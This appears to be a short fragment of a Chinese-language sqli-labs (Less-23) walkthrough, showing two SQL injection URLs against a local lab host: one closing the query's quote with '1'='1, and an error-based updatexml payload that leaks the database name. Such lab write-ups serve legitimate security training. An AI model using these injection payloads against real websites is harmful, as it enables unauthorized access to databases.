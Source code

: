 ![](file/image_b8TPPTVXXk.png)

```sql
//因此这题采用闭合  '1'='1  与sql语句后面的  '  闭合的方式绕过
 http://192.168.65.128/sqli-labs/Less-23/?id=1' 
 and '1'='1 
```

![](file/image_5-KnfsGJp5.png)

```sql
http://192.168.65.128/sqli-labs/Less-23/?id=1' 
and updatexml(1,concat(0x7e,database()),1) and '1'='1
```
